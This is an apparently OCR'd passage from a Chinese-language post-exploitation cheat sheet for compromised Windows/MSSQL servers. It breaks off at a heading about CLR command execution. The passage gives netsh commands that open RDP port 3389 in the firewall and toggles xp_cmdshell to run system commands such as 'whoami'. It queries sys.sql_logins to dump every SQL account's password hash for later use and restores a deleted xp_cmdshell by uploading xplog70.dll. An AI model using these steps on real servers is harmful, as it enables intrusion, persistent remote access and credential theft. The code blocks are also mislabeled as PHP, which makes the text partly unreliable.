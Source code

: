 win 2003 下防火墙放行 rdp 端口

```php
# netsh firewall add portopening tcp 3389 "remote desktop"
# netsh firewall delete portopening tcp 3389
```

win2008 之后系统防火墙放行 rdp 端口

```php
# netsh advfirewall firewall add rule name="remote desktop" protocol=tcp dir=in localport=3389 action=allow
# netsh advfirewall firewall delete rule name="remote desktop" dir=in protocol=tcp localport=3389
```

### 禁用 xp\_cmdshell

```php
exec sp_configure 'show advanced options', 1;reconfigure;
exec sp_configure 'xp_cmdshell', 0;reconfigure;
exec master..xp_cmdshell 'whoami';
```

撸掉 mssql 所有账户的密码备用

```php
SELECT name, password_hash FROM master.sys.sql_logins
```

### xp\_cmdshell 被删除

通过上传 xplog70.dll 恢复

```php
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'
```

# 使用 CLR 程序集执行命令

### 启用 CLR 与 GUI 集成

点击方面  